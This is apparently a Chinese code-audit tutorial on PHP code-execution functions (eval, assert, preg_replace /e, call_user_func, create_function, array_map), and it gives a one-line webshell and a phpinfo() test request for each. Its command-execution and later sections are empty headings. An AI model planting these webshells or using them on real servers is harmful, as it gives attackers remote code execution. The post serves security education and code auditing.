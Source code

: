 ```yaml
---
title: php代码执行漏洞
date: 2017-07-26 15:49:44
tags: [php,代码审计,代码执行]
categories: Web安全
copyright: true
---
```

# 常见危险函数
## php代码执行相关
### eval()
```
mixed eval ( string $code )
```
把字符串`code`作为php代码执行。常见的一句话木马：
```php
<?php
	eval($_GET['pass'])
?>
```
访问：
```
http://xxx/codeexec.php?pass=phpinfo();
```
得到phpinfo()页面。

### assert()
PHP 5
```
bool assert ( mixed $assertion [, string $description ] )
```
PHP 7
```
bool assert ( mixed $assertion [, Throwable $exception ] )
```

assert() 会检查指定的 assertion 并在结果为 FALSE 时采取适当的响应。如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行。

一句话木马：
```php
<?php
	assert($_GET['pass']);
?>
```
访问：
```
http://xxx/codeexec.php?pass=phpinfo()
```
phpinfo()后可以不用分号。得到phpinfo()页面。

### preg_replace
```
mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit = -1 [, int &$count ]] )
```
搜索subject中匹配pattern的部分， 以replacement进行替换。当使用被弃用的 e 修饰符时, 这个函数会转义一些字符，在完成替换后，引擎会将结果字符串作为php代码使用eval方式进行评估并将返回值作为最终参与替换的字符串
更详细的说明见：[php-preg_replace](http://php.net/preg_replace)



### call_user_func()
```
mixed call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] )
```
第一个参数 callback 是被调用的回调函数，其余参数是回调函数的参数。 传入call_user_func()的参数不能为引用传递。

```php
<?php
	call_user_func($_GET['chybeta'],$_GET['ph0en1x']);
?>
```
访问：
```
http://localhost:2500/codeexec.php?chybeta=assert&ph0en1x=phpinfo()
```

### call_user_func_array()
```
mixed call_user_func_array ( callable $callback , array $param_arr )
```

把第一个参数作为回调函数（callback）调用，把参数数组作（param_arr）为回调函数的的参数传入。

```php
<?php
	call_user_func_array($_GET['chybeta'],$_GET['ph0en1x']);
?>
```

访问：
```
http://localhost:2500/codeexec.php?chybeta=assert&ph0en1x[]=phpinfo()
```

### create_function
```
string create_function ( string $args , string $code )
```
该函数的内部实现用到了`eval`，所以也具有相同的安全问题。第一个参数`args`是后面定义函数的参数，第二个参数是函数的代码。

```php
<?php
	$a = $_GET['chybeta'];
	$b = create_function('$a',"echo $a");
	$b('');
?>
```

访问：
```
http://localhost:2500/codeexec.php
?chybeta=phpinfo();
```
### array_map()
```
array array_map ( callable $callback , array $array1 [, array $... ] )
```
作用是为数组的每个元素应用回调函数 。其返回值为数组，是为 array1 每个元素应用 callback函数之后的数组。 callback 函数形参的数量和传给 array_map() 数组数量，两者必须一样。

```php
<?php
	$array = array(0,1,2,3,4,5);
	array_map($_GET['chybeta'],$array);
?>
```

访问：
```
http://localhost:2500/codeexec.php
?chybeta=phpinfo
```
注意没有括号`()`和分号`;`。

## 系统命令执行相关
### system()
### passthru()
### exec()
### pcntl_exec()
### shell_exec()
### popen()
### proc_open()
### \`(反单引号)
### ob_start()
### escapeshellcmd()
该函数用于过滤

# php mail()

# 动态函数调用

# 反序列化问题

# LD_PRELOAD绕过

# Refference
+ [Obvious and not so obvious PHP code injection and evaluation](http://php-security.org/2010/05/20/mops-submission-07-our-dynamic-php/index.html)
